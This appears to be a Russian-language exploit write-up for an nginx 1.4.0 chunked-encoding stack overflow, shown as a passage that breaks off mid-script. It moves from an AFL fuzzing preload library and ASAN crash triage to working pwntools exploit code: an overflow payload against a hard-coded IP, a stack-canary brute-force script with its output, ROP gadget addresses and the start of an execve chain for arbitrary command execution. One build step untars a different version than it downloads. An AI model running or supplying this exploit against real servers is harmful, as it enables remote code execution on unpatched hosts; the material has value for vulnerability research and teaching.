



# Nginx 1.4.0 exploit

## Обнаружение уязвимости

### 1. Сборка и запуск nginx

```bash
sudo apt-get update
sudo apt-get install libssl-dev gcc make yasm bison wget tar

wget http://nginx.org/download/nginx-1.4.0.tar.gz
tar xzf nginx-1.26.0.tar.gz
cd nginx-1.4.0
./configure \
  --without-http_rewrite_module \
  --without-http_gzip_module
sudo make install
/usr/local/nginx/sbin/nginx -g 'daemon off;'


### 2. Анализ nginx под `strace` 

sudo strace -f -e trace=network /usr/local/nginx/sbin/nginx -g 'daemon off;'
```
Системные вызовы при инициализации:

Системные вызовы при curl:

### 3. Адаптер для AFL

```C
// preload library code

#define _GNU_SOURCE

#include <sys/socket.h>
#include <sys/types.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <netinet/in.h>
#include <netinet/tcp.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <dlfcn.h>
#include <errno.h>
#include <stdio.h>
#include <poll.h>
#include <fcntl.h>
#include <stdarg.h>
#include <pthread.h>

/* Конфигурация */

#define FUZZ_MAX_FD         4096
#define FUZZ_SOCKET_OFFSET  500
#define FUZZ_BUF_SIZE       65536
#define FUZZ_CLIENT_PORT    31337
#define FUZZ_SERVER_PORT    80

/* Макрос для "заднего" fd сокетпары */
#define BACK_FD(x) ((x) + FUZZ_SOCKET_OFFSET)

/* Логирование */
#define LOG_ENABLED 1

#define fuzz_log(fmt, ...) do { \
    if (LOG_ENABLED) { \
        fprintf(stderr, "[FUZZ %d] " fmt "\n", getpid(), ##__VA_ARGS__); \
        fflush(stderr); \
    } \
} while(0)

/* Глобальное состояние */

static int g_initialized = 0;
static int g_shutdown_flag = 0;
static int g_accepted_fd = -1;

/* Массив для отслеживания перехваченных fd и их потоков */
static pthread_t *g_threads[FUZZ_MAX_FD] = { NULL };

/* Оригинальные функции */
static int (*real_socket)(int, int, int);
static int (*real_bind)(int, const struct sockaddr *, socklen_t);
static int (*real_listen)(int, int);
static int (*real_accept)(int, struct sockaddr *, socklen_t *);
static int (*real_accept4)(int, struct sockaddr *, socklen_t *, int);
static int (*real_close)(int);
static int (*real_shutdown)(int, int);
static int (*real_getsockname)(int, struct sockaddr *, socklen_t *);
static int (*real_getpeername)(int, struct sockaddr *, socklen_t *);
static int (*real_setsockopt)(int, int, int, const void *, socklen_t);
static ssize_t (*real_read)(int, void *, size_t);
static ssize_t (*real_write)(int, const void *, size_t);
static int (*real_poll)(struct pollfd *, nfds_t, int);
static int (*real_dup2)(int, int);

/* ПОТОК СИНХРОНИЗАЦИИ STDIN -> SOCKET */

/*
 * Этот поток читает данные из stdin и пишет их в "задний" конец socketpair.
 * nginx читает из "переднего" конца - это РЕАЛЬНЫЙ recvfrom/recv/read!
 */
static void *stdin_to_socket_thread(void *arg)
{
    int front_fd = (int)(intptr_t)arg;
    int back_fd = BACK_FD(front_fd);
    char buf[FUZZ_BUF_SIZE];
    ssize_t n, written, w;
    
    fuzz_log("THREAD: started, stdin -> back_fd %d (front_fd %d)", back_fd, front_fd);
    
    while (!g_shutdown_flag) {
        /* Читаем из stdin */
        n = real_read(STDIN_FILENO, buf, sizeof(buf));
        
        if (n < 0) {
            if (errno == EINTR) continue;
            fuzz_log("THREAD: read error: %s", strerror(errno));
            break;
        }
        
        if (n == 0) {
            fuzz_log("THREAD: stdin EOF, closing back_fd %d", back_fd);
            /* Закрываем write-сторону чтобы nginx увидел EOF */
            real_shutdown(back_fd, SHUT_WR);
            break;
        }
        
        fuzz_log("THREAD: read %zd bytes from stdin", n);
        
        /* Пишем в задний конец socketpair */
        written = 0;
        while (written < n) {
            w = real_write(back_fd, buf + written, n - written);
            if (w < 0) {
                if (errno == EINTR) continue;
                if (errno == EPIPE) {
                    fuzz_log("THREAD: pipe closed");
                    goto done;
                }
                fuzz_log("THREAD: write error: %s", strerror(errno));
                goto done;
            }
            written += w;
        }
        
        fuzz_log("THREAD: wrote %zd bytes to back_fd %d", written, back_fd);
    }

done:
    fuzz_log("THREAD: exiting");
    return NULL;
}

/* Инициализация */

static void load_real_functions(void)
{
    real_socket = dlsym(RTLD_NEXT, "socket");
    real_bind = dlsym(RTLD_NEXT, "bind");
    real_listen = dlsym(RTLD_NEXT, "listen");
    real_accept = dlsym(RTLD_NEXT, "accept");
    real_accept4 = dlsym(RTLD_NEXT, "accept4");
    real_close = dlsym(RTLD_NEXT, "close");
    real_shutdown = dlsym(RTLD_NEXT, "shutdown");
    real_getsockname = dlsym(RTLD_NEXT, "getsockname");
    real_getpeername = dlsym(RTLD_NEXT, "getpeername");
    real_setsockopt = dlsym(RTLD_NEXT, "setsockopt");
    real_read = dlsym(RTLD_NEXT, "read");
    real_write = dlsym(RTLD_NEXT, "write");
    real_poll = dlsym(RTLD_NEXT, "poll");
    real_dup2 = dlsym(RTLD_NEXT, "dup2");
}

__attribute__((constructor))
static void fuzz_init(void)
{
    if (g_initialized) return;
    
    fuzz_log("=== FUZZ PRELOAD INITIALIZING ===");
    
    load_real_functions();
    memset(g_threads, 0, sizeof(g_threads));
    
    g_initialized = 1;
    
    fuzz_log("=== INITIALIZATION COMPLETE ===");
}

__attribute__((destructor))
static void fuzz_shutdown(void)
{
    int i;
    
    fuzz_log("=== SHUTTING DOWN ===");
    g_shutdown_flag = 1;
    
    /* Ждём завершения потоков */
    for (i = 0; i < FUZZ_MAX_FD; i++) {
        if (g_threads[i]) {
            pthread_join(*g_threads[i], NULL);
            free(g_threads[i]);
            g_threads[i] = NULL;
        }
    }
    
    fuzz_log("=== SHUTDOWN COMPLETE ===");
}

/* Вспомогательные функции */

static inline int is_intercepted(int fd)
{
    if (fd < 0 || fd >= FUZZ_MAX_FD) return 0;
    return g_threads[fd] != NULL;
}

static void fill_client_addr(struct sockaddr_in *sin)
{
    memset(sin, 0, sizeof(*sin));
    sin->sin_family = AF_INET;
    sin->sin_port = htons(FUZZ_CLIENT_PORT);
    sin->sin_addr.s_addr = htonl(0x7f000001);
}

static void fill_server_addr(struct sockaddr_in *sin)
{
    memset(sin, 0, sizeof(*sin));
    sin->sin_family = AF_INET;
    sin->sin_port = htons(FUZZ_SERVER_PORT);
    sin->sin_addr.s_addr = htonl(INADDR_ANY);
}

/* ПЕРЕХВАТ SOCKET API */

int socket(int domain, int type, int protocol)
{
    int fds[2];
    int front_fd, back_fd;
    int r;
    
    fuzz_init();
    
    fuzz_log("socket(domain=%d, type=%d, protocol=%d)", domain, type, protocol);
    
    /* Пропускаем не-интернет сокеты */
    if (domain != AF_INET && domain != AF_INET6) {
        return real_socket(domain, type, protocol);
    }
    
    /* Создаём РЕАЛЬНУЮ пару сокетов */
    r = socketpair(AF_UNIX, type | SOCK_STREAM, 0, fds);
    if (r != 0) {
        fuzz_log("socket: socketpair failed: %s", strerror(errno));
        return -1;
    }
    
    front_fd = fds[0];  /* Этот fd отдаём nginx */
    
    /* Перемещаем второй fd на предсказуемую позицию */
    back_fd = real_dup2(fds[1], BACK_FD(front_fd));
    if (back_fd < 0) {
        fuzz_log("socket: dup2 failed: %s", strerror(errno));
        real_close(fds[0]);
        real_close(fds[1]);
        return -1;
    }
    real_close(fds[1]);
    
    fuzz_log("socket: created socketpair front_fd=%d, back_fd=%d", front_fd, back_fd);
    
    /* Создаём поток для пересылки stdin -> back_fd */
    g_threads[front_fd] = malloc(sizeof(pthread_t));
    if (!g_threads[front_fd]) {
        fuzz_log("socket: malloc failed");
        real_close(front_fd);
        real_close(back_fd);
        return -1;
    }
    
    r = pthread_create(g_threads[front_fd], NULL, 
                       stdin_to_socket_thread, (void *)(intptr_t)front_fd);
    if (r != 0) {
        fuzz_log("socket: pthread_create failed");
        free(g_threads[front_fd]);
        g_threads[front_fd] = NULL;
        real_close(front_fd);
        real_close(back_fd);
        return -1;
    }
    
    fuzz_log("socket: thread started for fd %d", front_fd);
    
    return front_fd;
}

int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
{
    fuzz_init();
    
    if (is_intercepted(sockfd)) {
        const struct sockaddr_in *sin = (const struct sockaddr_in *)addr;
        fuzz_log("bind(fd=%d, port=%d) -> 0 (emulated)", 
                 sockfd, ntohs(sin->sin_port));
        return 0;
    }
    
    return real_bind(sockfd, addr, addrlen);
}

int listen(int sockfd, int backlog)
{
    fuzz_init();
    
    if (is_intercepted(sockfd)) {
        fuzz_log("listen(fd=%d, backlog=%d) -> 0 (emulated)", sockfd, backlog);
        return 0;
    }
    
    return real_listen(sockfd, backlog);
}

int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen)
{
    fuzz_init();
    
    fuzz_log("accept(fd=%d) called", sockfd);
    
    if (!is_intercepted(sockfd)) {
        return real_accept(sockfd, addr, addrlen);
    }
    
    /* Разрешаем только одно соединение */
    if (g_accepted_fd >= 0) {
        fuzz_log("accept: already accepted, returning ECONNRESET");
        errno = ECONNRESET;
        return -1;
    }
    
    /* Заполняем адрес клиента */
    if (addr && addrlen) {
        struct sockaddr_in client;
        fill_client_addr(&client);
        size_t copylen = (*addrlen < sizeof(client)) ? *addrlen : sizeof(client);
        memcpy(addr, &client, copylen);
        *addrlen = sizeof(client);
    }
    
    /* Дублируем fd - это будет "клиентское соединение" */
    /* На самом деле это тот же socketpair, данные идут из stdin через поток */
    g_accepted_fd = dup(sockfd);
    
    fuzz_log("accept(fd=%d) -> %d (client fd)", sockfd, g_accepted_fd);
    
    return g_accepted_fd;
}

int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags)
{
    (void)flags;
    return accept(sockfd, addr, addrlen);
}

/*  ПЕРЕХВАТ CLOSE/SHUTDOWN */

int close(int fd)
{
    fuzz_init();
    
    fuzz_log("close(fd=%d) called", fd);
    
    /* При закрытии клиентского соединения - выходим */
    if (g_accepted_fd >= 0 && fd == g_accepted_fd) {
        fuzz_log("close: client fd closed, exiting");
        _exit(0);
    }
    
    /* Если закрываем перехваченный сокет - освобождаем ресурсы */
    if (is_intercepted(fd)) {
        int back_fd = BACK_FD(fd);
        
        /* Останавливаем поток */
        if (g_threads[fd]) {
            g_shutdown_flag = 1;
            pthread_join(*g_threads[fd], NULL);
            free(g_threads[fd]);
            g_threads[fd] = NULL;
        }
        
        real_close(back_fd);
    }
    
    return real_close(fd);
}

int shutdown(int sockfd, int how)
{
    fuzz_init();
    
    fuzz_log("shutdown(fd=%d, how=%d) called", sockfd, how);
    
    if (g_accepted_fd >= 0 && sockfd == g_accepted_fd) {
        fuzz_log("shutdown: client fd, exiting");
        _exit(0);
    }
    
    if (is_intercepted(sockfd)) {
        return 0;
    }
    
    return real_shutdown(sockfd, how);
}

/*  ПЕРЕХВАТ ВСПОМОГАТЕЛЬНЫХ ФУНКЦИЙ */

int getsockname(int sockfd, struct sockaddr *addr, socklen_t *addrlen)
{
    fuzz_init();
    
    if (!is_intercepted(sockfd) && sockfd != g_accepted_fd) {
        return real_getsockname(sockfd, addr, addrlen);
    }
    
    if (!addr || !addrlen) {
        errno = EINVAL;
        return -1;
    }
    
    struct sockaddr_in local;
    fill_server_addr(&local);
    size_t copylen = (*addrlen < sizeof(local)) ? *addrlen : sizeof(local);
    memcpy(addr, &local, copylen);
    *addrlen = sizeof(local);
    
    fuzz_log("getsockname(fd=%d) -> emulated", sockfd);
    return 0;
}

int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen)
{
    fuzz_init();
    
    if (!is_intercepted(sockfd) && sockfd != g_accepted_fd) {
        return real_getpeername(sockfd, addr, addrlen);
    }
    
    if (!addr || !addrlen) {
        errno = EINVAL;
        return -1;
    }
    
    struct sockaddr_in peer;
    fill_client_addr(&peer);
    size_t copylen = (*addrlen < sizeof(peer)) ? *addrlen : sizeof(peer);
    memcpy(addr, &peer, copylen);
    *addrlen = sizeof(peer);
    
    fuzz_log("getpeername(fd=%d) -> emulated", sockfd);
    return 0;
}

int setsockopt(int sockfd, int level, int optname,
               const void *optval, socklen_t optlen)
{
    fuzz_init();
    (void)optval;
    (void)optlen;
    
    if (is_intercepted(sockfd) || sockfd == g_accepted_fd) {
        fuzz_log("setsockopt(fd=%d, level=%d, opt=%d) -> emulated", 
                 sockfd, level, optname);
        return 0;
    }
    
    return real_setsockopt(sockfd, level, optname, optval, optlen);
}
```

### 4. Подготовка корпуса (тестового набора)


### 5. Сборка и установка AFL:

```bash
sudo apt-get update
sudo apt-get install -y build-essential clang llvm libssl-dev git

wget http://lcamtuf.coredump.cx/afl/releases/afl-latest.tgz

cd afl-latest
make install
```

### 6. Сборка и запуск Nginx с AFL

Сборка Nginx:
```bash
CC=afl-gcc
```

```bash
echo core > /proc/sys/kernel/core_pattern
```
Запуск мастера afl:
```bash
sudo AFL_SKIP_CPUFREQ=1 \ 
AFL_PRELOAD=/home/user/libfuzz_preload.so \ afl-fuzz -i /home/yuriy/Desktop/corpus -o /home/user/outputs/fuzz_output4 -M master -m none -t 1000  \
 -- /usr/local/nginx-afl4/sbin/nginx -g 'daemon off; master_process off;'
```
Запуск i-го слейва:
```bash
sudo AFL_SKIP_CPUFREQ=1 \ 
AFL_PRELOAD=/home/user/libfuzz_preload.so \ afl-fuzz -i /home/user/corpus -o /home/user/outputs/fuzz_output4 -S slave_i -m none -t 1000  \
 -- /usr/local/nginx-afl4/sbin/nginx -g 'daemon off; master_process off;'
```

### 7. Получение crash


Чтобы увидеть детально в каком месте происходит падение, соберем nginx с ASAN и Debug символами:

```bash
CC=clang \
 ./auto/configure \
   --with-debug \
   --without-http_rewrite_module \
   --without-http_gzip_module \
   --with-cc-opt='-g -O1 -fsanitize=address,undefined -fno-omit-frame-pointer' \
   --with-ld-opt='-fsanitize=address,undefined'
```

Теперь запустим:
```bash
LD_PRELOAD=/home/user/libfuzz_preload.so \
 ASAN_OPTIONS=abort_on_error=1:symbolize=1:detect_leaks=0 \
 ./nginx -g 'daemon off; master_process off;' \
   < id_000001,sig_11,src_002495,op_havoc,rep_64
```

И посмотрим в error.log:
`tail /usr/local/nginx/logs/error.log`

```
src/http/ngx_http_parse.c:540:37: runtime error: left shift of 1 by 31 places cannot be represented in type 'int'
SUMMARY: AddressSanitizer: undefined-behavior src/http/ngx_http_parse.c:540:37 in 
src/http/ngx_http_parse.c:2036:39: runtime error: signed integer overflow: 1076060070966390510 * 16 cannot be represented in type 'long'
SUMMARY: AddressSanitizer: undefined-behavior src/http/ngx_http_parse.c:2036:39 in 
2025/12/04 03:28:56 [alert] 18993#0: *1 recv() failed (14: Bad address), client: 0.0.0.0, server: localhost, request: "UET /geW_ HTTP/1.0"
src/http/ngx_http_request_body.c:655:16: runtime error: load of address 0x62100000c958 with insufficient space for an object of type 'ngx_connection_t *' (aka 'struct ngx_connection_s *')
0x62100000c958: note: pointer points here
 00 00 00 00  b8 38 72 e4 e7 7f 00 00  00 d2 00 00 10 62 00 00  48 64 00 00 90 62 00 00  c0 76 01 00
              ^ 
SUMMARY: AddressSanitizer: undefined-behavior src/http/ngx_http_request_body.c:655:16 in 
ASAN:DEADLYSIGNAL
=================================================================
==18993==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x0000007292ab bp 0x7ffd36b1d130 sp 0x7ffd36b1bf40 T0)
ASAN:DEADLYSIGNAL
AddressSanitizer: nested bug in the same thread, aborting.
```

Заметим, что:
`hex(1076060070966390510) == 0xeeeeeeeeeeeeeee`

Посмотрим, как выглядит запрос:
```
user@ubuntu:~$ xxd id_000001,sig_11,src_002495,op_havoc,rep_64 | head
00000000: 5545 5420 2f67 6557 5f20 4854 5450 2f31  UET /geW_ HTTP/1
00000010: 2e30 0a48 7273 7443 1030 2e40 3130 2e30  .0.HrstC.0.@10.0
00000020: 2e30 3a35 3830 0d0a 5573 6572 2d41 6765  .0:580..User-Age
00000030: 6e2d 4c65 6e67 7468 3a20 3130 0a54 7261  n-Length: 10.Tra
00000040: 6e73 6665 722d 456e 636f 6469 6e67 3a20  nsfer-Encoding: 
00000050: 6368 756e 6b65 640a 0a30 4545 4545 4545  chunked..0EEEEEE
00000060: 4545 4545 4545 4545 4545 4545 453b 2069  EEEEEEEEEEEEE; i
00000070: 6c75 636b 0064 5e65 7468 6573 656e 6653  luck.d^ethesenfS
00000080: 6f63 6b92 742d 4b42 7930 0100 3420 4031  ock.t-KBy0..4 @1
00000090: 8000 0000 486f 7374 3a1f 6578 616d 706c  ....Host:.exampl
```

`Transfer-Encoding: chunked` сообщает серверу о том, что дальше данные будут разбиты на куски следующим образом:
размер куска + сам кусок

#### Примерная карта вызовов для обработки chunked:

```
ngx_http_request.c
ngx_http_wait_request_handler
           |
           V
ngx_http_request.c
ngx_http_process_request_headers
           |
           V
ngx_http_request.c
ngx_http_process_request
           |
           V
          ...
           |
           V
ngx_http_request_body.c           (1)       ngx_http_request_body.c
ngx_http_discard_request_body ---------> ngx_http_discard_request_body_filter
           |                                            |
           |                                            |
           |                                            V
           | (2)                                 ngx_http_parse.c
           |                                  ngx_http_parse_chunked
           |
           |                      +--------+
           V                      |        |
ngx_http_request_body.c           V        |
ngx_http_read_discarded_request_body ---+  |
                                        |  |
                                        |  |
                                        V  |
                            ngx_http_request_body.c
                        ngx_http_discard_request_body_filter
                                        |  A
                                        |  |
                                        |  |
                                        V  |
                               ngx_http_parse.c
                            ngx_http_parse_chunked
```

При установлении соединения с сервером первое чтение `nginx` осущеcтвляет на **1024** байта
Если запрос не предполагает наличие тела, например, **GET**, но при этом его содержит, то nginx просто считывает из сокета байты тела и пропускает их - этот процесс называется **discard body**

#### Этап (1)
Процесс отброса байтов тела происходит в функции `ngx_http_discard_request_body`.
Первый считанный ввод она сразу отдает функции `ngx_http_discard_request_body_filter`, которая вызывает парсер чанков `ngx_http_parse_chunked`. 

`ngx_http_parse_chunked` получает размер чанка, переводя из hex значения первых байт чанка. Кладет результат в переменную size типа long.

Во время обработки размера чанка из первого буфера на **1024** функция `ngx_http_parse_chunked` может остаться в состоянии `sw_chunk_extension` следующим образом:
1. В самом начале состояние `sw_chunk_start`
2. Если в начале чанка 16-ричное число, то состояние становится `sw_chunk_size`.
3. Если после числа поставить `;`, ` ` или `\t`, то состояние станет `sw_chunk_extension` 
4. Цикл обработки символов не изменит состояния до тех пор, пока ему не встретится символ `\r` или  `\n`
5. Если буфер закончился (все **1024** символа были обработаны), а `\r` или  `\n` так и не встретились, то:
    a. Посчитает значение для переменной **length** типа **long**
    ```c
    case sw_chunk_extension:
    case sw_chunk_extension_almost_done:
            ctx->length = 1 /* LF */ + ctx->size + 4 /* LF "0" LF LF */;
            break;
    ```
    b. вернет **NGX_AGAIN**

То есть, пакет следующего вида приведет к описанному выше поведению функции `ngx_http_parse_chunked`:
```
GET / HTTP/1.1
Host: localhost
Transer-Encoding: chunked

ABFFFFFFFFFFFFFF; <padding bytes>
```
где **padding bytes** - дополнение пакета до размера 1024.
В переменной **ctx->length** будет значение **AC00000000000004** или **-6052837899185946620** для типа **long**.

Управление возвращается в `ngx_http_discard_request_body_filter` (`ngx_http_request_body.c:680`), где происходит проверка результата работы функции `ngx_http_parse_chunked`:
```c
if (rc == NGX_AGAIN) {
    /* set amount of data we want to see next time */
    r->headers_in.content_length_n = rb->chunked->length;
    break;
}
```

На этом этапе удалось добиться, чтобы в переменную **r->headers_in.content_length_n** попало значение, переданное в пакете. Эта переменная в следующем этапе позволит контролировать размер последующих считанных байтов пакета.

#### Этап (2)
Управление снова вернулось в `ngx_http_discard_request_body`, где следующим шагом вызывается `ngx_http_read_discarded_request_body`.
Эта функция в цикле считывает данные из сокета в буфер на стеке с фиксированным размером **4096**. 

Перед считыванием происходит вычисление количества байт, которое будет считано из сокета и именно это место является уязвимым:
```c
size = (size_t) ngx_min(r->headers_in.content_length_n, NGX_HTTP_DISCARD_BUFFER_SIZE);
n = r->connection->recv(r->connection, buffer, size);
```

Поскольку в `ngx_http_parse_chunked` значение переменной **ctx->size** типа **long** парсится из 16-ричного представления, переданного в пакете, можно передать большое 8 байтное шестнадцатеричное значение, которое в абсолютном значении будет больше порога отрицательного значения для типа **long**.

Таким образом, уязвимость достигается следующим образом:
1. в **r->headers_in.content_length_n** кладется отрицательное значение
2. в проверке на минимум оно очевидно выигрывает положительное число
3. при кастовании к **size_t** получится огромное значение
4. это значение будет использовано в качестве размера следующего считывания в буфер
5. можно считать неограниченное количество данных на стек - **переполнение**

Для адекватного дебага переполнения лучше присоединяться к **worker**, поскольку так не возникает проблем с **recv**:

```
root       5997  0.0  0.0  24408  3268 pts/0    S+   04:55   0:00 nginx: master process ./nginx -g daemon off;
nobody     6056  0.0  0.0  24808  2440 pts/0    S+   04:56   0:00 nginx: worker process
```

```bash
sudo pwndbg nginx -p 6056

b src/http/ngx_http_request_body.c:654
```

## Эксплуатация

### 1. Митигации

```yaml
File:     /home/user/nginx
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
FORTIFY:    Enabled
Stripped:   No
Debuginfo:  Yes
```

Мы видим, что есть канарейка, а значит нужно ее сбрутить, чтобы успешно эксплуатировать переполнение буфера.

Отключен **PIE**, что позовляет нам обращаться к адресам исполняемого файла и получить, например, **leak** адреса **libc**.

**Partial RELRO** позволяет нам перезаписывать **GOT**.

**NX enabled** не позволит нам разместить шеллкод на стеке и запустить его, так как эта секция памяти будет помечена как не исполняемая. 

### 2. Buffer overflow

Данным кодом мы гарантированно добиваемся переполнения и переписывания канарейки:
```python
from pwn import *

io = remote('192.168.205.184', 80)

payload = b'GET / HTTP/1.1\n'
payload += b'Host: 192.168.205.184\n'
payload += b'Transfer-Encoding: chunked\n\n'
payload += b'ABFFFFFFFFFFFFFF; '

padding = b'a' * (1024 - len(payload))
payload += padding

attack = b'k' * 6000
payload += attack

io.send(payload)
io.interactive()
```

После запуска скрипта видим:
```
*** stack smashing detected ***: nginx: worker process terminated
```

### 3. Обход canary

Находим проверку канарейки:
```c
0x43218c <ngx_http_read_discarded_request_body+206>    mov    rsi, qword ptr [rsp + 0x1058]     RSI, [0x7ffd228d1758] => 0x6b6b6b6b6b6b6b6b ('kkkkkkkk')
 ► 0x432194 <ngx_http_read_discarded_request_body+214>    xor    rsi, qword ptr fs:[0x28]          RSI => 0xb4ee40e26b113a6b (0x6b6b6b6b6b6b6b6b ^ 0xdf852b89007a5100)
   0x43219d <ngx_http_read_discarded_request_body+223>  ✘ je     ngx_http_read_discarded_request_body+230 <ngx_http_read_discarded_request_body+230>
 
   0x43219f <ngx_http_read_discarded_request_body+225>    call   __stack_chk_fail@plt        <__stack_chk_fail@plt>
```

При этом **buffer** расположен по адресу:
```c
pwndbg> p/x &buffer
$5 = 0x7ffd228d0750
```

Таким образом **offset** до канарейки:
```python
0x7ffd228d1758 - 0x7ffd228d0750 = 4104
```

Мы запускаем **nginx** с **master process**, это значит, что для обработки запросов будут создаваться **worker'ы**, которые будут клонироваться с помощью **fork** от **master process**, а значит канарейка будет одна и та же среди всех **worker'ов**.

Значит, стратегия следующая:
1. По очереди перезатираем байт канарейки
2. Если не угадали, в ответ ничего не получим, **worker** упадет и соединение оборвется
3. Если угадали, то в ответ получим сообщение от nginx


```python
from pwn import *
import struct

context.log_level = 'critical'

CANARY_OFFSET = 4104

def base_payload():
    payload = b'GET / HTTP/1.1\n'
    payload += b'Host: 192.168.205.184\n'
    payload += b'Transfer-Encoding: chunked\n\n'
    payload += b'ABFFFFFFFFFFFFFF; '

    padding = b'a' * (1024 - len(payload))
    payload += padding
    payload += b'k' * CANARY_OFFSET

    return payload

def canary_brute():
    canary = b''

    for byte_num in range(8):
        for byte in range(256):
            io = remote('192.168.205.184', 80)

            payload = base_payload()
            
            guess = canary + bytearray([byte])
            payload += guess

            try:
                io.send(payload)
                io.recv(1024)
                canary = guess
                break
            except:
                pass
            finally:
                io.close()
        
        print(f'Bruted {byte_num} byte: {canary}')
    
    return canary

def main():
    canary = canary_brute()

if __name__ == '__main__':
    main()
```

В результате видим:
```python
Bruted 0 byte: b'\x00'
Bruted 1 byte: b'\x00Q'
Bruted 2 byte: b'\x00Qz'
Bruted 3 byte: b'\x00Qz\x00'
Bruted 4 byte: b'\x00Qz\x00\x89'
Bruted 5 byte: b'\x00Qz\x00\x89+'
Bruted 6 byte: b'\x00Qz\x00\x89+\x85'
Bruted 7 byte: b'\x00Qz\x00\x89+\x85\xdf'
```

Сверяем в gdb:
```python
pwndbg> x/gx 0x7ffd228d1758
0x7ffd228d1758:	0xdf852b89007a5100
```

### 4. ROP

Поскольку стек не исполняемый, воспользуемся техникой ROP.

Есть ряд удобных нюансов, которые помогают в эксплуатации:
1. Бинарный файл богат различными импортами из **libc**
2. При **fork** также сохраняется и расположение памяти **vmmap**, а значит в каждом **worker'е** **libc** будет загружена по одинаковому адресу

В частности, nginx экспортирует **execve**, которой мы можем воспользоваться.

Для полноценного использования этой функцией нам необходима возможность конструировать **argv** и **envp**, то есть писать строки, понимать по каким адресам они лежат и писать массивы из адресов на эти строки в память.

Посмотрим карту памяти:
```python
pwndbg> vmmap
     Start                End Perm     Size  Offset File 
  0x400000           0x47a000 r-xp    7a000       0 nginx
  0x679000           0x67a000 r--p     1000   79000 nginx
  0x67a000           0x689000 rw-p     f000   7a000 nginx
```

Мы можем писать в область с `0x67a000` до `0x689000`, там расположены:
1. `0x67a000 - 0x67a420`: .got.plt
2. `0x67a420 - 0x688200`: .data
3. `0x688200 - 0x689000`: .bss

Поскольку нам не важна судьба **worker'a**, выберем любой адрес, например **67A420** - data start

Мы сделаем возможность исполнять любую команду с помощью execve, поэтому писать будем следующим образом:
1. Строки дополняются 0 на конце и дополняются так, чтобы длина была кратна 8
2. Следом создаются массивы из строк

С помощью **ROPgadget** соберем гаджеты:

```bash
ROPgadget --binary nginx_bin > gadgets.txt
```

Среди них можем увидеть **Arbitrary Write** гаджет, который позволит заполнять память:
```c
0x0000000000408e20 : mov qword ptr [rdi], rsi ; ret
```

Для этого нужно контролировать **rdi** и **rsi** (эти же гаджеты дают контроль над первыми аргументами функции):
```c
0x00000000004083f6 : pop rsi ; ret
0x0000000000403fbb : pop rdi ; ret
```

Для контроля третьего аргумента (**envp**) используем следующие гаджеты:
```c
0x000000000046e50b : pop rax ; ret
0x000000000040c4df : mov rdx, rax ; mov byte ptr [rdx + 0x20], 0 ; ret
```

Envp будет состоять только из одного элемента `A=123`, поэтому запись в **[rdx + 0x20]** ноля никак не испортит данные.


```python
from pwn import *

context.log_level = 'critical'

CANARY_OFFSET = 4104
RET_OFFSET    = 24

RW_ADDR     = 0x67A420 
POP_RDI     = 0x403fbb
POP_RSI     = 0x4083f6
POP_RAX     = 0x46e50b
EXECVE      = 0x402816

# 0x0000000000408e20 : mov qword ptr [rdi], rsi ; ret
MOV_RDI_RSI = 0x408e20

# 0x000000000040c4df : mov rdx, rax ; mov byte ptr [rdx + 0x20], 0 ; ret
MOV_RDX_RAX = 0x40c4df

def base_payload():
    payload = b'GET / HTTP/1.1\n'
    payload += b'Host: 192.168.205.184\n'
    payload += b'Transfer-Encoding: chunked\n\n'
    payload += b'ABFFFFFFFFFFFFFF; '

    padding = b'a' * (1024 - len(payload))
    payload += padding
    payload += b'k' * CANARY_OFFSET

    return payload

def canary_brute(ip, port):
    canary = b''

    for byte_num in range(8):
        for byte in range(256):
            io = remote(ip, port)

            payload = base_payload()
            
            guess = canary + p8(byte)
            payload += guess

            try:
                io.send(payload)
                res = io.recv(1024)

                if b'HTTP/1.1 200 OK' in res:
                    canary += p8(byte)
                    break
                
            except:
                pass
            finally:
